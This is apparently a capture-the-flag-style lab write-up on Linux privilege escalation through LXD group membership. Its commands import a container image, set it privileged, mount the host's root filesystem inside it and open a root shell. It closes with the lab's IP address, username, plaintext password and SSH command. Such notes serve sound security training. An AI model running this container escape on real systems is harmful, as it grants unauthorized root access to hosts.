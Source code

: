 
Determine if you're in the LXD/LXC group

```shell-session
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

Templates are often used for test environments and thus sometimes do not have the best security practices, i.e., they do not have passwords. Import the container as an image:

```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```

Initiate configuration by specifying the `security.privileged` flag
```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Log into the container as root and navigate to the path previously specified

```shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root
```

### Questions

#### IP:
```
10.129.1.47
```

### Username:
```
htb-student
```

### Password:
```
HTB_@cademy_stdnt!
```

#### SSH

```
ssh htb-student@10.129.1.47
```
